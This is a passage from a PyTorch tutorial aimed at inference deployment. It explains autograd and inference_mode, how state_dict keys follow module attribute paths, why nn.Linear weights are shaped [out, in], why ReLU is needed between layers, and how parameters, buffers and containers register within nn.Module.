vocab_size, and the whole tokenization story unchanged — beginners often assume "the quantized build changes everything," but it only moves the "bytes-per-weight" knob.
4. Autograd: understand it mainly so you can turn it off
PyTorch's signature feature is automatic differentiation: during the forward pass it quietly records a computation graph, then differentiates along it on backward.
x = torch.tensor([2.0], requires_grad=True)
y = x ** 2 + 3 * x
y.backward() # autodiff
print(x.grad) # dy/dx = 2x+3 = 7
But you do inference — you don't need gradients at all. Recording the graph means storing intermediate activations, which costs both VRAM and time. So at inference you must turn it off:
# Form 1: context manager
with torch.no_grad():
out = model(x)
# Form 2: more thorough, the inference go-to (skips version counters and other overhead too)
with torch.inference_mode():
out = model(x)
Difference between no_grad / inference_mode: the latter is more aggressive — it forbids these tensors from ever entering a graph again, with lower overhead. It's the recommended form for pure inference. vLLM / FunASR / F5-TTS all run their forward passes in this mode — you never feel it through the API, but understanding it explains why inference uses so much less VRAM than training: what's saved is exactly this graph and its intermediate activations.
The one practical difference between the two that will bite: tensors produced inside inference_mode can never enter a computation graph later. The error reads RuntimeError: Inference tensors cannot be saved for backward. When you'll hit it — exactly the "freeze the encoder, train only a head" scenario §5 describes: you batch-compute embeddings under inference_mode(), then use them to train a head, and backward blows up. Two ways out: use no_grad() for the embedding step (it produces ordinary tensors, just without a recorded graph); or .clone() the results before using them. The rule: pure inference → inference_mode; if the outputs will later feed training → no_grad.
There's a companion switch — different purpose, but usually seen together:
model.eval() # switch to inference behavior: turn off Dropout, use BatchNorm's running stats
model.eval() changes layer behavior (Dropout/BatchNorm behave differently in train vs eval); no_grad() changes whether a graph is built. They're orthogonal — at inference you generally want both: model.eval() + inference_mode(). (A model returned by transformers' from_pretrained is already in eval mode, no need to call it again; something you torch.load yourself, or a hand-written nn.Module, defaults to train mode and you must switch it.)
That "BatchNorm running statistics" above is not a temporary training variable — it's a buffer: not learnable, but saved into state_dict alongside the weights, shipped with them, and required to match on load. §7 adds this tier to "what's actually inside state_dict"; the mechanism is at the end of Appendix One.
autograd ≠ backpropagation (strictly speaking)
- autograd is the engine: during the forward pass it records the computation graph and stores intermediate activations, making "being differentiable" possible.
- backpropagation is the algorithm: walking that graph backward and applying the chain rule — i.e. what
loss.backward()triggers.
Treating "autograd" as shorthand for backprop is fine in conversation, but the layering is: autograd = graph recording (forward) + reverse differentiation (backward); backprop is specifically the backward half. At inference you need neither half, which is why inference_mode() skips even the graph recording — that's where the VRAM savings come from.
The real determinant is inference vs training, not "someone else's pretrained model vs your own":
training: forward → loss → backward(backprop) → optimizer.step() ← all three are training-only
inference: forward only (weights frozen, no gradients)
Doing prompt engineering (not touching weights) = pure inference → autograd off. If you later do LoRA on Qwen (updating weights) = training → autograd is back (you need gradients, backward, an optimizer). So don't bind "pretrained model" to "no autograd"; the switch is "am I updating weights in this step or not."
5. nn.Module: a model is just "a function that carries weights"
A model is essentially: a bunch of weight tensors + a forward function. nn.Module is the standard container that holds it. We'll use a minimal two-layer network (two nn.Linears, one hidden layer) called TinyNet to explain everything — note that "layer" here counts weight layers, not node layers; older textbooks call the same thing a "three-layer network" (input + hidden + output); this naming trap is untangled in "How many hidden layers?" below — once you get this, the real models like Qwen3 and bge share exactly the same scaffold, just with "two layers" swapped for "dozens."
import torch
import torch.nn as nn
# Map N input features to 2 class scores (binary classifier): n_features is a constructor arg, output dim 2 is hardcoded
class TinyNet(nn.Module):
def __init__(self, n_features): # ← how many input features, passed from outside
super().__init__()
self.fc1 = nn.Linear(n_features, 4) # weight W(4×n_features) + bias b(4), auto-registered as parameters
self.fc2 = nn.Linear(4, 2) # output is always 2 — the "2" in "binary classifier"
def forward(self, x): # defines the forward pass; triggered by model(x)
x = torch.relu(self.fc1(x))
return self.fc2(x)
model = TinyNet(3) # credit-card fraud: 3 features (amount / geo-distance / frequency) → normal vs fraud
out = model(torch.randn(1, 3)) # input [batch=1, 3 features] — dim 0 is always batch (see Appendix Two)
# model = TinyNet(1024) # the input dim is just a knob: set it to 1024 and it plugs in after a text encoder (later in this section)
Its weights are random and untrained, so the output is meaningless — but the shape (3 → 4 → 2) is that of a working classifier. Let's take it apart layer by layer.
What's that
4in the middle? The hidden-layer width — a pure capacity knob; 4, 8, 16, 64 all work, and it's independent of "how many inputs" or "how many output classes." For "how many hidden layers, how wide each," see "How many hidden layers?" below.
state_dict: this is what model files contain
Why look at this first — because it directly explains what a model file is:
sd = model.state_dict()
# OrderedDict: {'fc1.weight': tensor(4×3), 'fc1.bias': tensor(4),
# 'fc2.weight': tensor(2×4), 'fc2.bias': tensor(2)}
state_dict is a param-name → weight-tensor dict. Its keys are not arbitrary names — they're "the attribute path from root module to this tensor", joined by .. In TinyNet, self.fc1 is an nn.Linear which internally has self.weight, so the path is fc1.weight; fc2.bias likewise.
Real models just have longer paths. The key is each layer's name; the value is that layer's trained parameter tensor. Dump a Qwen3 and you see:
model.layers.0.self_attn.q_proj.weight
model.layers.0.mlp.gate_proj.weight
model.layers.1.self_attn.q_proj.weight
...
model.layers.31.mlp.down_proj.weight
Same idea: model (backbone) → layers (a container holding 32 blocks) → 0 (which block) → self_attn → q_proj (a Linear) → weight. The entire key set is the same handful of names repeated 32 times, with only the index changing. That index is the layer number — where it comes from, and why TinyNet doesn't have one, is explained in Appendix One (Containers).
Every loader does the same thing: first build the model skeleton from the config (all random values), then pour the trained parameters from the state_dict into it. FunASR's AutoModel.build_model() does this (pouring from model.pt); transformers' AutoModel.from_pretrained() does this too (pouring from safetensors, §8) — both libraries have something called AutoModel, they are two unrelated classes, don't mix them up.
The .safetensors / pytorch_model.bin you download contains exactly this (safetensors is the safer, zero-copy mmap format; bin is the old pickle format with security risks — see §7). Loading just pours it back into the structure:
sd = torch.load("weights.bin", map_location="cpu", weights_only=True) # read it as a dict first
model.load_state_dict(sd) # then pour it into the structure
(map_location="cpu": a .pt records which card each tensor was on when saved; on a machine with no GPU, or different card numbering, a bare torch.load fails with something like CUDA device 1 not available — landing on CPU first and then .to() is the safe path. weights_only=True: only deserialize tensors, execute no code — §7 explains why.)
So a model = structure definition (the nn.Module in code) + weights (the state_dict file), kept separate. One of the things vLLM / FunASR do for you is assemble the HuggingFace structure definition and weight files together. This also explains why "weights are right but the code version is wrong" fails to load — the structure and the state_dict keys don't match.
But "mismatch means error" has one important exception, and it's precisely the path you use most. load_state_dict defaults to strict=True, erroring on missing or unexpected keys; transformers' from_pretrained does not error by default — weights missing from the file are filled with random initialization, keys present in the file but not in the model are discarded, and all you get is one warning line in the log:
Some weights of Qwen3ForCausalLM were not initialized from the model checkpoint at ... and are newly initialized: ['lm_head.weight']
You should probably TRAIN this model on a down-stream task ...
This is a major source of "no error anywhere, output is garbage": the model loads, runs, and produces nonsense because a few layers are random numbers. When loading an unfamiliar model, checking the log for newly initialized / unexpected keys has to become a habit (§9 ⑧).
A real case: stripping a prefix — the strongest evidence that "keys are attribute paths"
We said keys are "the attribute path from the root module to the tensor." That sentence has a direct corollary that plays out every day: change the root, and the whole key set must be rewritten — and only strings change; not a single float is touched.
Fun-ASR-Nano's official weights, model.pt, are in training format: one state_dict holding all four parts — encoder, adaptor, CTC, LLM — with keys like:
audio_encoder.… ← SenseVoice encoder
audio_adaptor.… ← projection layer
ctc.… ← timestamp side path
llm.model.layers.0.… ← decoder (Qwen3-0.6B)
vLLM wants only the LLM, and wants it to appear as the root module — i.e. model.layers.0.… with no llm. in front. FunASR's conversion function does exactly this:
for key, value in state_dict.items():
if key.startswith("llm."):
llm_state[key[len("llm."):]] = value # strip the prefix; the tensor moves over untouched
Stripping a prefix = promoting a submodule to root module. This works, and needs nothing more than string slicing, for one reason only: keys are attribute paths — the first segment is "where to start counting from"; change the starting point and you just cut off the first segment.
It's also the real-life version of §7's "model = structure + weights + tokenizer": with this weight file alone vLLM still can't load it; the conversion function also has to copy a config.json + tokenizer from the official repo to make up a complete directory. The training format (one big pickle, self-contained) and the inference format (a directory, three things kept separate) are not the same thing, and the adaptation step in between can't be skipped (§7 expands on this).
Dissecting nn.Linear: affine transform, [out, in], and the fully-connected diagram
Both layers in TinyNet are nn.Linear. nn.Linear(in, out) computes an affine transformation (linear transform + translation) — the code does:
y = x @ W.T + b (x is a row / batched — the form you're used to)
It maps in-dim input to out-dim output. The most intuitive view — the output side has out "neurons," each looking at all in inputs:
out[i] = wᵢ · x + b[i] ← neuron i: in weights dotted with in inputs, plus 1 bias
Here wᵢ (neuron i's weight row) and x are both plain vectors of length in, and · is a dot product (elementwise multiply then sum).
Why is W always [out, in]? Draw TinyNet as a fully-connected graph and it's obvious — each number in W is one edge in the graph:

- "Fully connected" (where
fccomes from) = every output node connects to every input node. In the diagram, each of h's 4 nodes draws an edge from all 3 inputs; each of y's 2 nodes draws an edge from all 4 h nodes. - Count edges = count shape:
fc1has3 × 4 = 12edges → W₁ is[4, 3];fc2has4 × 2 = 8edges → W₂ is[2, 4]. Don't memorize shapes — count edges. - One row = one neuron's incoming edges: stare at output
yᵢ— it has 4 incoming edges (one from each of h₀…h₃), and those 4 edges are row i of W₂:W[i, :].outneurons →outrows; each row hasinincoming edges →incolumns. That's the graphical version of[out, in]= "each row is one neuron, containing all its incoming edges" — the two matrices on the right side of the figure are read directly from the graph. - Edge weight =
W[i][j]: a weight of 0 means "no effective connection" (drawn as dashed lines in the figure) — soy₀only connects to h₀ and h₂, whiley₁only connects to h₁ and h₃.
Rule to nail down:
nn.Linear(in, out)→ W[out, in], b[out]. When you dump a layer's.weight, its shape is[out, in]— that's how PyTorch stores it internally. Sofc1 = nn.Linear(3, 4)→ W[4,3], b[4], total4×3 + 4 = 16params;fc2 = nn.Linear(4, 2)→ W[2,4], b[2], total10params. Note this entire derivation never used "column vectors" — only that fully-connected graph.
What W and b each do:
- W does "projection / rotation / scaling": its row i dots with the input, determining what aspects of the input neuron i "sees" and how much weight each gets.
- b does "translation": adds a constant offset elementwise to the projection result, independent of the input.
Together: one Linear = first apply W as a linear transform, then shift by b = the affine map y = x @ W.T + b.
Structurally, W and b are two independent parameters: nn.Linear internally creates them as two separate nn.Parameter objects — self.weight ([out,in]) and self.bias ([out]), directly accessible as model.fc1.weight / model.fc1.bias. They appear as two separate records in state_dict: fc1.weight, fc1.bias. Loading from safetensors fills each Parameter back by key name — a key mismatch (version / structural change) errors out at this step. (Many LLM Linears use bias=False, in which case only .weight exists — that's why some model dumps have no bias keys.)
Walking through with real numbers (same graph, now with actual values)
The previous section used the diagram to nail shapes; now we pour numbers into the same graph and watch them flow out. Take the second layer fc2 = Linear(4, 2), with input h being the hidden layer's output h = [2,5,1,2]. W₂'s shape is [out, in] = [2, 4], 2 rows, 4 columns:
W₂ = [[1, 0, 2, 0], b₂ = [10, h = [2, 5, 1, 2] (the 4 hidden values)
[0, 1, 0, 3]] 20]
y = h @ W₂.T + b₂
= [2,5,1,2]·[1,0,2,0] + 10 , [2,5,1,2]·[0,1,0,3] + 20 ← each ROW of W dotted with h
= (2 + 0 + 2 + 0) + 10 , (0 + 5 + 0 + 6) + 20
= 4 + 10 , 11 + 20
= 14 , 31 → y = [14, 31]
Match it against the diagram: neuron 0 (W₂ row 0 [1,0,2,0], the two blue edges to y₀) "sees" only h₀ and h₂, computing 4; neuron 1 (W₂ row 1 [0,1,0,3], the two teal edges to y₁) "sees" only h₁ and h₃, computing 11; then each adds its bias, shifting to [14, 31]. The diagram shows structure ([out,in]); this step shows the computation — same graph, two reads.
With a batch, the input is [batch, 4]; @ W₂.T yields [batch, 2], and b is broadcast-added to every row:
H = [[2,5,1,2],
[1,1,1,1]] # [batch=2, in=4]
H @ W2.T + b2 == [[14, 31],
[13, 24]] # [batch=2, out=2]
(The .T in x @ W.T, and how batch relates to "column vectors," is the most confusing spot — it's pulled out to Appendix Two at the end of this section. If you just want to use x @ W.T without digging deeper, skip it.)
What TinyNet actually does: look at the output end and the input end separately
Mathematically it's a function ℝ³ → ℝ² mapping a 3-D vector to a 2-D vector; structurally it's a "two-layer MLP" (two Linears, one hidden layer). Untrained, its output is meaningless; but train this 3→4→2 shape and you have a textbook simple binary classifier.
To judge whether it "fits", split it into its two ends — the conclusions are very asymmetric.
The output end: always right. It emits 2 logits at the end, which matches any "pick one of two": transaction normal vs fraud, spam vs not, positive vs negative review. As long as the final decision is one-of-two, the output end is fine.
The input end: that's the real question. The constructor argument "3 features" is literally true only when the input naturally is a few numbers:
- Holds: a credit-card transaction's amount / geo-distance / frequency →
TinyNet(3); an iris flower's sepal length / sepal width / petal length / petal width →TinyNet(4); a few lab values → sick vs healthy. Use as is. - Doesn't hold: an email, a movie review. The output end matches perfectly (still one-of-two), but the input end is stuck — text is not naturally a few numbers. To feed it in, you first have to turn it into a fixed-length vector: either hand-assemble a few features (link count / exclamation-mark count / contains "free" …), or compress it with an encoding model (but that's typically 384 / 768 / 1024 dimensions).
And the question "what do we do at the input end" is exactly what reveals TinyNet's true identity. But first a word that will recur needs defining.
An aside: what is a "head"
Real models are almost all two-stage:
input → [ backbone: dozens of layers, compressing the input into a general-purpose vector representation ]
→ [ head: one or two layers, turning that vector into the output the current task wants ]
The backbone is general, pretrained, and large; the head is task-specific and small. The same backbone with different heads is a different task:
| head | eats | emits | used for |
|---|---|---|---|
| LM head | the last layer's hidden [D] |
[vocab] scores |
predicting the next token (generation) |
| classification head | one sentence vector [D] |
[2] or [N] scores |
discrimination (sentiment, intent, fraud or not) |
| Pooler | one vector per token [N, D] |
one sentence vector [D] |
compressing a sequence into one vector (retrieval) |
It's called a "head" because it pairs with "backbone" — the backbone holds things up from below, and the head sits on top.
And TinyNet's shape is exactly the shape of a classification head. Change the input dimension to 1024, put it after a text encoder (something like BGE), and you have a real sentiment classifier — text → encoded into a 1024-dim vector → this small MLP → 2 logits. The encoder compresses the text into a vector; TinyNet makes the final call on that vector.
The same TinyNet class: TinyNet(3) is credit-card fraud control, TinyNet(1024) is a classification head behind an encoder — the structure is fixed; "how many input features" is just a knob. (§0.5 mentioned the even lazier version: don't write the small MLP at all, use an sklearn logistic regression as the head.)
This "backbone + a head on the end" structure isn't specific to toys: real large models and text-encoding models share the first few dozen layers and differ only in which head goes on the end. Part 2 uses this idea all the way through.
Wait — by §0.5's criterion, shouldn't this example use sklearn?
Yes. Three numeric features, binary classification — that's exactly the "a table" tier. A random forest does it in three lines, and probably does it better.
But TinyNet isn't here to solve fraud control; it's a specimen. Its only reason to exist is that it's small enough to draw every weight on paper, which makes it good for explaining three things:
- why the
state_dictkeys arefc1.weight, and how that rule extends all the way tomodel.layers.0.self_attn.q_proj.weight(§7) - why the weight of
nn.Linear(in, out)is[out, in] - why there must be a ReLU between the two Linears
And you're learning these three things to read Qwen3 and BGE, not to do fraud control. Swap in a random forest and you can explain none of them — a tree model has no state_dict, no [out, in], no activation function.
Its identity as a "classification head" is real, though, and there's one scenario sklearn can't cover:
| Scenario | Can sklearn do it? |
|---|---|
| The encoder is frozen; you only train a classifier on the vectors it outputs | Yes, and it's less work (§0.5 recommends logistic regression for exactly this) |
| The classification head is fine-tuned together with the encoder | No — the gradient has to flow from the head all the way back into the encoder, and an sklearn classifier is not on the gradient chain |
The second row is the real reason heads in real systems use nn.Linear rather than sklearn, and it's exactly the "can the gradient get through" in that parenthetical in §0.5.
From "one Linear" to "a network": why there must be a ReLU in between
That covers one Linear (projection + shift). TinyNet is two Linears stacked, with a ReLU between them. That ReLU is not optional decoration; it's the only reason depth does anything:
Without ReLU, two Linear layers collapse into one. W₂(W₁x + b₁) + b₂ expands to (W₂W₁)x + (W₂b₁ + b₂) — W₂W₁ is still one matrix and what follows is still one constant vector, so the whole thing is still one affine transform, equivalent to a single Linear(3,2). Stacking two layers = stacking for nothing.
ReLU (clip negatives to 0) inserts a nonlinearity, and only then can the two layers not collapse back. With that one "fold", W₂·relu(W₁x + b₁) + b₂ can no longer be simplified to a single Wx + b, and the two layers together can learn a nonlinear decision boundary. Everything depth achieves rests on these nonlinearities between layers.

Walk through TinyNet(3)'s forward with shapes (single sample, batch=1):
def forward(self, x): # x: [1, 3] (batch=1, 3 features)
x = torch.relu(self.fc1(x)) # fc1: [1,3]→[1,4]; relu doesn't change shape: [1,4]→[1,4]
return self.fc2(x) # fc2: [1,4]→[1,2] out: [1,2]
Three steps: fc1 lifts 3 dimensions to 4 (the hidden layer — h is just another vector, don't make it mysterious); relu clips negatives to 0 element-wise, adding nonlinearity without changing the shape; fc2 squeezes 4 dimensions to 2, which are the final 2 class scores (logits).
How many hidden layers? — and taking apart the "three-layer network" naming trap
TinyNet has only one hidden layer. When you need it to do real work, how do you decide how many hidden layers and how wide each one is?
First the naming trap: "three layers" doesn't count hidden layers. The classic "three-layer network on MNIST" in older textbooks (784 → hidden → 10) counts node layers: input layer + hidden layer + output layer = 3. PyTorch counts weight layers (how many nn.Linear): the same network has 2 Linears and 1 hidden layer. So that "three-layer network" is the same shape as TinyNet — not three hidden layers. Both counting conventions are in circulation; when you see "N layers", first ask whether it counts nodes or weights. (Real models always count weight layers: Qwen3's "32 layers" are 32 transformer blocks.)
Why one hidden layer is enough (in theory): the universal approximation theorem. The results from Cybenko (1989) / Hornik (1991) say: a single hidden layer + enough width + a nonlinear activation can approximate any continuous function on a compact set arbitrarily well. But the theorem only guarantees that "such a set of weights exists"; it says nothing about how many neurons it takes (possibly exponentially many), nor whether SGD (stochastic gradient descent) can find them. So the right reading is "one layer is enough in principle", not "one layer is optimal".
Wait — can everything we want a network to do really be written as a "function"? Binary classification obviously can, but what about generation, or conversation? The answer is yes, and the trick is to change what counts as the output:
- The network itself is a function by construction: one
forwardis a deterministic tensor mapping; same input + same weights → same output. So the question was never "can the network be a function" but "can the task be arranged into the shape of a function".- One-to-many (randomness) → output a distribution instead of an answer. The same prompt can be continued in countless ways, which doesn't look like a function — but what the LLM's network emits is not the word, it's the probability distribution over the next token (
[vocab]logits).prompt → distributionis single-valued; the randomness happens in sampling outside the network (temperature / top-p). TTS and ASR work the same way. The 2 logits of binary classification are the same thing, with vocab = 2.- Needs memory (state) → put the state into the input. A function has no memory, so multi-turn conversation puts the whole history into the context window — the domain gets wider, and each call is still a pure function. The KV cache is only a cache for that pure function, not a state machine.
- Needs multi-step computation → move the loop outside the network. The amount of computation in one forward pass is fixed (layers × width), so it can't run an algorithm with an unbounded number of steps. The fix isn't to make the network something other than a function, but to call the same function repeatedly: autoregressive decoding iterates N times; chain of thought feeds the output back in as the next input. The "steps" depth can't give you come from the outer loop.
So the three things that "don't look like a function" — randomness, memory, iteration — have all been moved outside the network, and a pure function always remains inside. (This is also why inference engines can confidently schedule an LLM as a "stateless function + KV cache" — Part 2 goes into it.)
While we're at it, how strict the two terms in the theorem are: "compact set" (a bounded region) isn't an obstacle in practice (inputs are bounded anyway), but it draws the failure boundary — outside the region (OOD, out of distribution) the theorem guarantees nothing, and that's the root of models talking nonsense outside their training distribution. "Continuous function" — classification labels jump and aren't continuous, but the network learns continuous logits, and the jump happens in the
argmaxafter the network; later work also extended the result to weaker senses. In one sentence: whether something can be represented as a function is almost never the bottleneck; what stops you is whether SGD can find it, whether you have the data, and whether the inductive bias is right.
Then why do real models keep stacking deeper? — depth is cheaper than width. For the same parameter budget, depth can reuse intermediate representations: the data itself is hierarchical / compositional (images: edges → textures → parts → objects; text: characters → words → phrases → meaning), and each extra layer abstracts once more on top of the previous layer's abstraction. Some functions need exponential width to approximate with a shallow network, while a deep network needs only linear. That's why it's "dozens of layers" and not "one ultra-wide layer".
Back to the common question: would one more hidden layer help? First the causal chain, then measured numbers.
Deeper = more capacity. And on tasks like handwritten digit recognition, the bottleneck is not capacity, it's generalization.
A single hidden layer already fits the training set almost perfectly — which shows the network is fully capable of representing the data. The few percent it gets wrong are on the test set: unseen, slanted, blurry samples. And poor generalization comes from the wrong inductive bias: an MLP flattens the image into a row of independent numbers and has no idea which two pixels are neighbors. Adding layers only adds capacity, it doesn't change the bias, so adding them doesn't help.
An analogy: you got exam questions wrong not because "your brain is too small" but because "your method is wrong". Memorizing it one more time still gets it wrong.
This is a live instance of the sentence in section 2 of the appendix at the end — the bottleneck was never expressive power; it's whether you can learn the right function from limited data and generalize.
Measured (using sklearn's built-in digits, 8×8 handwritten digits, 1,797 images, nothing to download; averaged over 5 random seeds):
| Structure | Parameters | Train | Test |
|---|---|---|---|
| 1 hidden layer (64) | 4,810 | 0.978 | 0.967 |
| 2 hidden layers (64,64) | 8,970 | 0.995 | 0.977 |
| 1 hidden layer (128) | 9,610 | 0.987 | 0.974 |
| 2 hidden layers (128,128) | 26,122 | 1.000 | 0.976 |
| 3 hidden layers (128×3) | 42,634 | 1.000 | 0.973 |
These numbers lay the mechanism out:
- Adding the second layer does give a small gain (0.967 → 0.977) — so "completely useless" isn't accurate.
- But the training set reaches 1.000: capacity was more than enough long ago.
- Perfect on train, stuck at 0.97 on test → the bottleneck is clearly not capacity.
- 4.7× the parameters (4,810 → 26,122) buys only +0.9 points on test, and the third layer starts going backwards (0.973).
Going deeper also has two costs, which explain why "going backwards" isn't an accident:
- Easier to overfit: more parameters, a perfect training score and an unmoving test score — that's what it looks like.
- Harder to optimize: the gradient has to pass through more layers and tends to vanish or explode. That's exactly where deep MLPs got stuck being "untrainable" in the '90s. Naively stacking 10
Linear + ReLUmay well be worse than 2 layers.
Then how do modern models stack up to 72 layers? Not by "stacking a few more Linears", but with a whole set of parts that make depth trainable: residual connections (leaving the gradient a straight path through), normalization (LayerNorm / RMSNorm keep each layer's distribution stable), better initialization and optimizers. Residuals + norm are the entry ticket to "the depth dividend".
Practical rules from the inference-stack point of view:
- Classification head: 0–1 hidden layers is plenty. The kind of classification head that sits behind a text encoder is usually a single
Linear, or a TinyNet shape likeLinear → activation → Linear. Spending depth here is pointless — the heavy lifting is done by the embedding model. - Width is a purely empirical knob: 128 / 256 / 512 are common on MNIST, tuned against a validation set; there's no formula.
- Spend depth where there's structure to exploit: convolutions for images, attention for text. Blindly adding MLP layers is the least cost-effective way to add.
- Don't read an LLM's "dozens of layers" as dozens of bare Linears: they're dozens of transformer blocks, each with attention + FFN + residual + norm inside. And interestingly — the FFN in each block is exactly a two-layer MLP (
Linear → activation → Linear, with the middle about 4× wider). The TinyNet shape appears dozens of times in one LLM. How those dozens of blocks are stacked withnn.ModuleListand what their keys look like: see Appendix One.
Wrapping up: how this maps to real models
This scaffolding — "__init__ defines layers + forward chains them + parameters go into the state_dict automatically" — is exactly the same as in Qwen3 and bge; they just replace "2 Linears" with an embedding table + dozens of transformer layers + an LM head / Pooler. See through these few lines of toy code and real model structures stop being dizzying.
(Also note the call above is written model(x), not model.forward(x) — that's not just style; calling .forward() directly silently skips a batch of infrastructure. The reason is at the end of Appendix One.)
A route in the opposite direction (skippable). This section goes down from the
nn.Moduleabstraction to the weight file; the mainstream route mentioned at the start (the officialnn_tutorial, the Manning book) goes the other way — first hand-write a working network with bare tensors, then swap innn.Module/optim/DataLoaderstep by step. The same black box, taken apart two ways: that route ends atoptimizer.step(), this one ends atmodel.layers.0.self_attn.q_proj.weight. Which one is useful to you depends on whether you're training or deploying.
Appendix One: TinyNet touches only two things — what else is in the torch.nn cabinet
TinyNet uses only nn.Linear + torch.relu. There's a lot more in torch.nn; here's a map sorted by "will your inference stack run into it" — the point isn't to list APIs but to let you, when you dump a real model, recognize which module produced each key.
1) Layers — sort them by relevance, don't list them flat. The ones you'll actually touch, all already seen in this document:
| Module | Notes |
|---|---|
nn.Linear |
Fully connected layer, the star of this section; in an LLM q_proj / k_proj / gate_proj / lm_head are all this |
nn.Embedding |
Token embedding lookup table [vocab, hidden]; LLMs have one too, and it's often the largest tensor (detailed in Part 2) |
nn.LayerNorm |
Normalization — the ...norm.weight entries in a dump; transformers use LayerNorm, not BatchNorm (the LLaMA / Qwen family uses RMSNorm, same tier) |
From other domains, which you'll basically never meet:
| Module | Notes |
|---|---|
nn.Conv2d |
Convolution, used by CNNs (the TinyConv in the appendix at the end touches it briefly) |
nn.Dropout |
Random dropping during training; a no-op at inference (turned off by model.eval() in §4) |
nn.BatchNorm2d |
Batch normalization in vision, with running statistics kept during training |
nn.LSTM |
The recurrent layer of the RNN era, fully replaced by transformers |
One to clarify: the concept behind nn.Transformer / nn.MultiheadAttention is introduced in this document from §5 and used throughout Part 2, but these two modules, literally, are basically never imported in production — HF and vLLM each write their own modeling code. So read it as "the concept", not "the class you'll be using".
2) Activations — one sentence: TinyNet's ReLU is a toy choice; real LLMs use GELU / SiLU / SwiGLU, and which one is in the hidden_act field of config.json (§7). A hook for "read the config to identify the activation" is enough; no need to memorize the table.
3) Loss functions — one sentence: nn.CrossEntropyLoss / MSELoss and the rest are purely training-side, living in the back half of §4's forward → loss → backward → optimizer.step(), just like optimizer — inference never touches them. Knowing nn has this drawer is enough; not expanded here.
4) Containers — the drawer most worth looking at; it explains the "numbered keys" of real models. TinyNet hand-writes two named attributes self.fc1 / self.fc2 → flat keys. But a real transformer has dozens of identical blocks, and you can't hand-write self.fc1…fc72 — containers are the answer to "a pile of identical layers", and the trace they leave is exactly the numbered keys you'll run into when you dump Qwen3, which TinyNet doesn't have:
# Original TinyNet: two named submodules → flat keys
# self.fc1 / self.fc2 → fc1.weight, fc1.bias, fc2.weight, fc2.bias
# Sequential: numbered automatically by "position in the stack"; you don't even write forward
seq = nn.Sequential(nn.Linear(3,4), nn.ReLU(), nn.Linear(4,2))
# keys: 0.weight, 0.bias, 2.weight, 2.bias
# ↑ ReLU is at index 1 and has no parameters, so it's simply skipped in the keys
# ModuleList: how a real transformer stacks N layers; you write the forward loop yourself
class Stack(nn.Module):
def __init__(self, n):
super().__init__()
self.layers = nn.ModuleList([Block() for _ in range(n)])
def forward(self, x, mask):
for blk in self.layers: # hand-written loop — each layer also takes mask / pos / kv-cache
x = blk(x, mask)
return x
# keys: layers.0.<...>, layers.1.<...>, ...
# ↑ exactly the number in model.layers.0.self_attn.q_proj.weight when you dump Qwen3
Three points to nail down:
- Containers exist to "register" (a trap that bites). Taking a shortcut and writing a plain Python list
self.layers = [Block() …]silently doesn't register them: they're not in the state_dict,.to("cuda")doesn't move them, and they have no gradients. This completes the earlier sentence "assigning toself.xxxregisters it automatically" with "what about a pile of layers". - Why real models use
ModuleListrather than the less-workSequential:Sequentialonly fits a straight pipe where "the previous layer's output is the next layer's only input"; a transformer block also takes mask / position / KV cache and has a residual branch — not a straight pipe — so it has to beModuleList+ a hand-written forward loop (attention needs extra state; Part 2 goes into it). nn.ModuleDict(stored by name, e.g. grouping encoder / decoder) registers the same way and is used less; knowing it exists is enough.
In one sentence: Layers are "which layers are in the drawer"; Containers are "how those layers are assembled into real, numbered keys" — put the two together and you go straight from TinyNet's fc1.weight to Qwen3's model.layers.0.self_attn.q_proj.weight.
One last cut: nn.Module has two kinds of "magic", and bypassing either one fails silently. The plain-list trap above is only half of it:
| Magic | How you trigger it | What happens if you bypass it |
|---|---|---|
__setattr__ → registration |
self.layers = nn.ModuleList([...]) |
Written as a plain list: not in the state_dict, .to() doesn't move it, no gradients |
__call__ → hooks |
model(x) / blk(x, mask) in the loop |
Calling .forward() directly: skips every hook |
First, expanding the first row: "registration" is not one tier but four. The plain list above is just the most visible way to leak. The full four tiers (measured on torch 2.13):
| How you write it | Learnable (has gradient) | In state_dict |
Moved by .to() |
|---|---|---|---|
self.w = nn.Parameter(t) |
✓ | ✓ | ✓ |
self.register_buffer("m", t) |
✗ | ✓ | ✓ |
self.register_buffer("m", t, persistent=False) |
✗ | ✗ | ✓ |
self.m = torch.zeros(...) |
✗ | ✗ | ✗ |
Minimal repro:
class Demo(nn.Module):
def __init__(self):
super().__init__()
self.lin = nn.Linear(4, 2) # submodule
self.scale = nn.Parameter(torch.ones(2)) # learnable parameter
self.register_buffer("running_mean", torch.zeros(2)) # persistent buffer
self.register_buffer("inv_freq", torch.arange(2.), persistent=False)
self.plain = torch.zeros(2) # plain attribute — none of the above
# named_parameters: ['scale', 'lin.weight', 'lin.bias']
# named_buffers : ['running_mean', 'inv_freq']
# state_dict keys : ['scale', 'running_mean', 'lin.weight', 'lin.bias']
# ↑ not learnable, but in the file ↑ inv_freq isn't there
# after m.to(torch.float64):
# lin.weight / scale / running_mean / inv_freq all become float64
# plain is still float32 ← didn't come along
Three sentences to nail it down:
nn.Parameteris "to be learned" —requires_grad=True, innamed_parameters(), in the state_dict. (In passing: theemb.weight.dataand.detach()in later code both mean "strip off the Parameter shell and get the plain tensor underneath, with no gradient attached" — the same Storage, just no longer in the computation graph. Modifying.datachanges the weight directly and leaves no trace, so it should only appear where "I really do mean to edit the weights by hand", such as a conversion script.)- A buffer is "not learned, but has to come along" —
requires_grad=False, moved by.to(); a persistent buffer also goes into the state_dict and is published with the weights. BatchNorm'srunning_mean/running_var/num_batches_trackedare this tier (the "running statistics" in §4) — measured: the state_dict ofnn.Sequential(nn.Linear(4,3), nn.BatchNorm1d(3))contains all three, and deliberately deleting one and callingload_state_dictfails outright withMissing key(s) in state_dict: "1.running_mean". So when §5 / §7 say "error if keys don't match the structure", it's not only weights that can fail to match. - A plain attribute is "PyTorch doesn't know it exists" — on no list, not moved by
.to(). Theplainabove is the minimal repro of §2's "some mask forgot.to(device)". It's sneakier than the plain-list trap: with the list, at least the state_dict visibly lacks a whole layer; a plain tensor attribute is completely silent and only blows up when you change devices.
The persistent=False tier explains "the key count doesn't add up". It's meant for things that "can be recomputed on the spot from the config and aren't worth storing in the file". Measured in the modeling code of transformers 5.14.1:
transformers/models/qwen3/modeling_qwen3.py:102
self.register_buffer("inv_freq", inv_freq, persistent=False)
RoPE's inv_freq (and original_inv_freq) is exactly this — you won't see it when you dump the safetensors, but it's in the model, in VRAM, and moves with .to(). So len(state_dict) and "how many tensors the model really has" are two different things. This and Part 2's "config.vocab_size is padded; don't subtract one config from another directly" are two instances of the same kind of trap: the number in the file ≠ what's actually there at runtime.
